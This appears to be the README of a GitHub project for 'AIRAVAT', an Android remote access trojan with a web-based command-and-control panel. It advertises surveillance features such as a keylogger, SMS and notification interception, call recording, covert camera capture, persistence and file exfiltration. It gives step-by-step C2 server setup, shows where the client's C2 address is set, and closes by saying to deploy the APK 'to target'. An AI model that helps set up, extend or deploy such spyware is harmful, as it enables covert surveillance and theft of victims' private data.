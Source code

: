 

<p align="center">
<img src='WEB PANEL/img/logo.png' style="height:100px;width:100px;" >
</p>
<h1 align=center>AIRAVAT</h1>

#### A multifunctional Android RAT with GUI based Web Panel without port forwarding.

> [!IMPORTANT]
> The source code has been published <a href="./ANDROID APP/AIRAVAT.swb" >here</a> use <a href="https://github.com/Sketchware-Pro/Sketchware-Pro" >Sketchware Pro</a> to view the source code.


<div align="center">

</div>

### Features
- Permissions bypass (android 12 below) https://youtube.com/shorts/-w8H0lkFxb0
- Keylogger https://youtube.com/shorts/Ll9dNrkjFOA
- Notifications listener
- SMS listener
- Phone call recording
- Image capturing and screenshots
- Video recording
- Persistence 
- Read & write contacts
- List installed applications
- Download & upload files
- Get device location

[![Tutorial Video](https://img.youtube.com/vi/ykOx19hAaD4/0.jpg)](https://youtu.be/ykOx19hAaD4)

### Installation
- Clone repository
  ```console
  git clone https://github.com/Tomiwa-Ot/moukthar.git
  ```
- Install php, composer, mysql, php-mysql driver, apache2 and a2enmod
- Move server files to ```/var/www/html/``` and install dependencies
  ```console
  mv moukthar/Server/* /var/www/html/
  cd /var/www/html/c2-server
  composer install
  cd /var/www/html/web-socket/
  composer install
  cd /var/www
  chown -R www-data:www-data .
  chmod -R 777 .
  ```
  The default credentials are username: ```android``` and password: ```android```
- Create new sql user
  ```mysql
  CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
  GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
  FLUSH PRIVILEGES;
  ```
- Set database credentials in ```c2-server/.env``` and ```web-socket/.env```
- Execute ```database.sql```
- Start web socket server or deploy as service in linux
  ```console
  php Server/web-socket/App.php
  # OR
  sudo mv Server/websocket.service /etc/systemd/system/
  sudo systemctl daemon-reload
  sudo systemctl enable websocket.service
  sudo systemctl start websocket.service
  ```
- Modify ```/etc/apache2/sites-available/000-default.conf```
  ```console
  <VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/c2-server
        DirectoryIndex app.php
        Options -Indexes

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
  </VirtualHost>

  ```
- Modify ```/etc/apache2/apache2.conf```
  ```xml
    Comment this section
    #<Directory />
    #       Options FollowSymLinks
    #       AllowOverride None
    #       Require all denied
    #</Directory>

   Add this
    <Directory /var/www/html/c2-server>
        Options -Indexes
        DirectoryIndex app.php
        AllowOverride All
        Require all granted
    </Directory>
  ```
- Increase php file upload max size ```/etc/php/*.*/apache2/php.ini```
  ```ini
  ; Increase size to permit large file uploads from client
  upload_max_filesize = 128M
  ; Set post_max_size to upload_max_filesize + 1
  post_max_size = 129M
  ```
- Set web socket server address in <script> tag in ```c2-server/src/View/home.php``` and ```c2-server/src/View/features/files.php```
  ```console
  const ws = new WebSocket('ws://IP_ADDRESS:8080');
  ```
- Restart apache using the command below
  ```console
  sudo a2enmod rewrite && sudo service apache2 restart
  ```
- Set C2 server and web socket server address in client ```functionality/Utils.java```
  ```java
  public static final String C2_SERVER = "http://localhost";

  public static final String WEB_SOCKET_SERVER = "ws://localhost:8080";
  ```
- Compile APK using Android Studio and deploy to target

### Screenshots
![Login](screenshots/login.png)
![Dashboard](screenshots/c2.png)
![Installed Apps](screenshots/apps.png)
![Camera](screenshots/camera.png)
![Contacts](screenshots/contacts.png)
![Files](screenshots/files.png)
![Notifications](screenshots/notifications.png)
![SMS](screenshots/sms.png)
![Video](screenshots/video.png)

### TODO
- Auto scroll logs on dashboard
- Screenshot not working
- Image/Video capturing doesn't work when application isn't in focus
- Downloading files in app using DownloadManager not working
- Listing constituents of a directory doesn't list all files/folders
